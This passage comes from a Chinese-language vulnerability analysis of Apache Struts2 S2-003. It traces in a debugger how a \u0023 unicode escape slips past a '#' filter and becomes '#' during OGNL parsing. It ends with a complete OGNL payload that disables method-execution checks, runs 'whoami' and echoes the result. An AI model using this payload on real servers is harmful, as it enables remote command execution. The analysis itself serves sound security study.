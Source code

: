 &emsp;&emsp;&emsp;&emsp;4.F7进入acceptableName函数,继续F7进入isAccepted函数

![acceptableName](https://taomujian.github.io/img/S2-003/images/acceptableName.png)

&emsp;&emsp;&emsp;&emsp;5.可看到这里通过简单的正则表达式[\p{Graph}&&[^,#:=]]*来检测,防止传入恶意特殊字符开头如#等.此处只过滤了#却没有过滤#字符的unicode格式,所以导致了安全限制被绕过从而导致了漏洞的产生.

![正则](https://taomujian.github.io/img/S2-003/images/正则.png)

&emsp;&emsp;&emsp;&emsp;6.分析\u0023到#的处理,继续执行,跟进setValue方法

![setValue](https://taomujian.github.io/img/S2-003/images/setValue.png)

继续F7进入setValue,跳到下面的重载方法

![setValue_2](https://taomujian.github.io/img/S2-003/images/setValue_2.png)

![setValue_3](https://taomujian.github.io/img/S2-003/images/setValue_3.png)

F7进入OgnlUtil.setValue方法

![setValue_3](https://taomujian.github.io/img/S2-003/images/setValue_3.png)

F7进入complie方法

![compile](https://taomujian.github.io/img/S2-003/images/compile.png)

F7进入parseExpression方法

![parseExpression](https://taomujian.github.io/img/S2-003/images/parseExpression.png)

F7进入topLevel方法,从topLevelExpression就开始了进行语法分析工作.接着进行expression()的解析。

![topLevel](https://taomujian.github.io/img/S2-003/images/topLevel.png)

![expression](https://taomujian.github.io/img/S2-003/images/expression.png)

expression()的解析主要来自于ognl-2.6.11-sources.jar/ognl/JavaCharStream.java readChar函数.在295行打一个断点

![readChar](https://taomujian.github.io/img/S2-003/images/readChar.png)

当\之后为u时,则会进行专门的处理,经过处理后\u0023就会转化为#从而绕过了安全限制

![处理后](https://taomujian.github.io/img/S2-003/images/处理后.png)

&emsp;&emsp;&emsp;&emsp; 7.payload分析

&emsp;&emsp;&emsp;&emsp;前一部分('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)是关闭了denyMethodExecution函数

&emsp;&emsp;&emsp;&emsp;剩余的就是执行命令并回显出来&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
